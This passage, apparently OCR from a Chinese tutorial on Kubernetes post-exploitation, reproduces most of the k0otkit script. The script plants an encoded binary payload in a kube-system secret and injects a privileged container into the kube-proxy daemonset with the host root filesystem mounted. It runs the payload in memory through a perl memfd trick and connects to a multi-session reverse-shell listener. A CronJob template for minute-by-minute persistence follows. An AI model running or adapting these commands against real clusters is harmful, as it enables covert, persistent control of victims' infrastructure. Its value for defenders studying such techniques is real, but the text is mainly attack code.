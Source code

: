     监听
    ==
    
    ./handle\_multi\_reverse\_shell.sh
    
    k0otkit.sh的内容复制到master执行：  
    volume\_name=cache  
    mount\_path=/var/kube-proxy-cache  
    ctr\_name=kube-proxy-cache  
    binary\_file=/usr/local/bin/kube-proxy-cache  
    payload\_name=cache  
    secret\_name=proxy-cache  
    secret\_data\_name=content  
    ctr\_line\_num=$(kubectl --kubeconfig /root/.kube/config -n kube-system get daemonsets kube-proxy -o yaml | awk '/ containers:/{print NR}')  
    volume\_line\_num=$(kubectl --kubeconfig /root/.kube/config -n kube-system get daemonsets kube-proxy -o yaml | awk '/ volumes:/{print NR}')  
    image=$(kubectl --kubeconfig /root/.kube/config -n kube-system get daemonsets kube-proxy -o yaml | grep " image:" | awk '{print $2}')
    
    create payload secret
    =====================
    
    cat &lt;&lt; EOF | kubectl --kubeconfig /root/.kube/config apply -f -  
    apiVersion: v1  
    kind: Secret  
    metadata:  
    name: $secret\_name  
    namespace: kube-system  
    type: Opaque  
    data:  
    $secret\_data\_name: N2Y0NTRjNDYwMTAxMDEwMDAwMDAwMDAwMDAwMDAwMDAwMjAwMDMwMDAxMDAwMDAwNTQ4MDA0MDgzNDAwMDAwMDAwMDAwMDAwMDAwMDAwMDA......
    
    inject malicious container into kube-proxy pod
    ==============================================
    
    kubectl --kubeconfig /root/.kube/config -n kube-system get daemonsets kube-proxy -o yaml \\  
    | sed "$volume\_line\_num a\\ \\ \\ \\ \\ \\ - name: $volume\_name\\n hostPath:\\n path: /\\n type: Directory\\n" \\  
    | sed "$ctr\_line\_num a\\ \\ \\ \\ \\ \\ - name: $ctr\_name\\n image: $image\\n imagePullPolicy: IfNotPresent\\n command: \[\\"sh\\"\]\\n args: \[\\"-c\\", \\"echo \\$$payload\_name | perl -e 'my \\$n=qq(); my \\$fd=syscall(319, \\$n, 1); open(\\$FH, qq(&gt;&amp;=).\\$fd); select((select(\\$FH), \\$|=1)\[0\]); print \\$FH pack q/H\*/, ; my \\$pid = fork(); if (0 != \\$pid) { wait }; if (0 == \\$pid){system(qq(/proc/\\$\\$\\$\\$/fd/\\$fd))}'\\"\]\\n env:\\n - name: $payload\_name\\n valueFrom:\\n secretKeyRef:\\n name: $secret\_name\\n key: $secret\_data\_name\\n securityContext:\\n privileged: true\\n volumeMounts:\\n - mountPath: $mount\_path\\n name: $volume\_name" \\  
    | kubectl --kubeconfig /root/.kube/config replace -f -
    
    #### cronjob持久化

CronJob 用于执行周期性的动作，例如备份、报告生成等，攻击者可以利用此功能持久化。

```php
apiVersion: batch/v1
kind: CronJob  #使用CronJob对象
metadata:
  name: hello
spec:
  schedule: "*/1 * * * *" #每分钟执行一次
  jobTemplate:
    spec:
      template:
        spec:
          containers:
          - name: hello
            image: busybox
            imagePullPolicy: IfNotPresent
            command:
            - /bin/sh
            - -c
            - #反弹Shell或者木马
```